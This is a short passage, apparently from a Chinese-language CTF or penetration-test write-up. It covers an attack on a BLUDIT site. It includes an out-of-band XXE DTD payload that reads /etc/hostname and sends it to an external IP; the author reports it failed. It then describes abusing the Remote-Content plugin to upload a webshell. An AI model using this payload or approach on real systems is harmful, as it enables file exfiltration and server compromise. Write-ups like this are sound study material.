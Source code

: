 
  个人服务器上的xxe.dtd：

  ```xml
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/hostname">
  <!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://101.34.83.83:80:1234/?%file;'>">
  ```

  失败.....不得行哦



接下来就去看BLUDIT能用的插件，发现了Remote-Content这一款插件，哦豁，看到有人在那上传马，赶紧抄手作业。remote-content插件是BLUDIT用于支持远程托管内容的一个插件，它会将source所指向的zip压缩包下载到服务器上并解压，然后根据压缩包的内容来更新文章的内容。

![image-20210629185839529](/images/image-20210629185839529.png)

我现在本地自己用docker试了下remote-content插件的功能，直接拉的官方docker镜像，设置好链接直接try webhook

![image-20210629190220771](/images/image-20210629190220771.png)
